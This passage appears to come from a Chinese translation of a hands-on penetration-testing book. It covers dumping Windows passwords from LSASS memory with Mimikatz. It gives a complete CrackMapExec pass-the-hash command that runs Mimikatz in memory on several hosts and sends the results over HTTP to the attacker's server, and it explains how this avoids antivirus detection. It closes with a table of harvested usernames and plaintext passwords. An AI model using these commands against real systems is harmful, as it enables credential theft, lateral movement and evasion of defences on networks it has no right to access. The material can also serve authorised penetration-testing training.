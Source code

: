 ![&#x4F7F;&#x7528;&#x7BA1;&#x7406;&#x5458;hash&#x83B7;&#x53D6;&#x66F4;&#x591A;&#x4FE1;&#x606F;](.gitbook/assets/3.4-5.png)

搞定了！现在我们可以无视操作系统版本，访问所有windows服务器了！接下来就可以在远程服务器上为所欲为了：如获取文件，监视用户，导出哈希等等。

如果我告诉你咱们还能做得更好，你会不会很吃惊？其实，我们还可以在不使用爆破的情况下，获取所有windows服务器上最近连接用户的密码。这本身并非漏洞，而是一种设计缺陷。第一款能利用该缺陷的公开工具是 Mimikatz，它的出现，彻底改变了 Windows 渗透的世界。

{% hint style="info" %}
**Mimikatz--windows魔法** Gentilkiwi 开发了 Mimikatz 用来探索 Windows 认证机制的内部原理。他发现用户登录之后，其密码都保存在内存的“本地安全授权子系统服务”（简称 LSASS）进程中。通过利用 Windows 未公开的功能， Mimikatz 可以对密码解密并明文显示。

建议你读读Gentilkiwi的介绍文章，有讲到该缺陷的细节，不过最不可思议的是，这么多年过去了该方法居然还有效。

Mimikatz提供了很多功能，使得它很快成为了 Windows 入侵和渗透的必备工具。后面我们将介绍它的部分功能。
{% endhint %}

对此，你可能会有疑问，咱们会不会太冒险了？毕竟这个工具早就为人所知，所有的防病毒和防恶意软件产品都能识别其前五个字节特征。没错！但是别忘了一个简单的事实，所有防病毒产品只会分析落盘的文件。甭管这些厂家宣传的多牛x、先进，都逃不出这个简单的事实。

Mimikatz 太好用了，于是很快被集成到大部分windows入侵工具中。因此 CrackMapExec（以及empire、metesploit等等）都能在内存中远程执行它，并且绕过所有传统的防病毒品牌。

```text
FrontGun$ proxychains crackmapexec -u administrator -H bc45f08f2aa577a69 -d WORKGROUP 192.168.1.116 192.168.1.70 192.168.1.88 -M mimikatz --server=http --server-port=80
```

再回过头看看我们的攻击链，可以更好的理解这条命令：Crackmapexec 在我们的 Front Gun 服务器上运行。通过135端口运行的远程过程调用（简称RPC）在远程服务器内存中启动了进程。该进程启动了一段 Powershell 代码，然后从 CME（注意 --server 和 --server-port 参数） 启动了 Mimikatz，在内存中运行后将结果通过 HTTP 回传。Mimikatz 全程不落盘，压根监测不到，就是这么简单。

![&#x5728;&#x5185;&#x5B58;&#x4E2D;&#x8FD0;&#x884C;mimikatz](.gitbook/assets/3.4-6.png)

总的来说，咱们已经收集到不止6组密码了。这里的每一个密码，都可能是通向绿区服务器的钥匙。这将是下一章的主题了。

| 主机名 | 用户 | 密码 | 域 |
| :--- | :--- | :--- | :--- |
| 192.168.1.70 | admin\_svc | Hello5me | WORKG |
| 192.168.1.80 | svc\_mnt | Hello5!981 | WORKG |
| 192.168.1.116 | martin | Jelly67Fish | WORKG |
| 192.168.1.116 | richard | Hello5me | WORKG |
| 192.168.1.88 | Lionnel\_adm | Kiki\*\*081nb | WORKG |
| All DMZ windows machines | Administrator | M4ster@dmin \_123 | WORKGR |

{% hint style="info" %}
**补充说明** 以上所有对 CrackMapExec 和 Mimikatz 的演示都有个架设前提，就是 DMZ 区的 Windows 服务器可以访问我们的 Front Gun 服务器，两者之间能通过 80 端口进行通信，以发送密码。这个架设并非永远成立，后面我们还会提到
{% endhint %}

> 翻译：xncoder 2019/8/6

